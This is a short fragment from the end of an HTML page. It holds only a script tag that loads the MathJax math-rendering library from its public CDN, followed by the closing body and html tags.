<script src="http://cdn.mathjax.org/mathjax/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML"></script>
</body>

</html>
